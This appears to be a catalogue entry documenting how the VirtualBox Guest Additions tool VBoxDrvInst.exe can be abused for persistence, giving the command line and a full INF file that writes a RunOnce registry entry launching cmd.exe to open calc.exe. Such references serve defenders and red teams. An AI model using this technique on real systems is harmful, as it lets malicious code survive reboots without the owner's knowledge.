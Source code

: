 ## VBoxDrvInst.exe

* Functions: Persistence

```
VBoxDrvInst.exe driver executeinf c:\temp\calc.inf      
```

Acknowledgements:
* Pierre-Alexandre Braeken - @pabraeken

Code sample:
* 

Resources:
* https://twitter.com/pabraeken/status/993497996179492864

Full path:
```
C:\Program Files\Oracle\VirtualBox Guest Additions
```

Notes:
calc.inf
```
; DRIVER.INF
; Copyright (c) Microsoft Corporation.  All rights reserved.
 
[Version]
Signature = "$CHICAGO$"
Class=61883
ClassGuid={7EBEFBC0-3200-11d2-B4C2-00A0C9697D17}
Provider=%Msft%
DriverVer=06/21/2006,6.1.7600.16385
 
[DestinationDirs]
DefaultDestDir = 1
 
[DefaultInstall]
AddReg = CalcStart

[CalcStart]
HKLM,Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce,Install,,cmd.exe /c """calc.exe"""
```
 
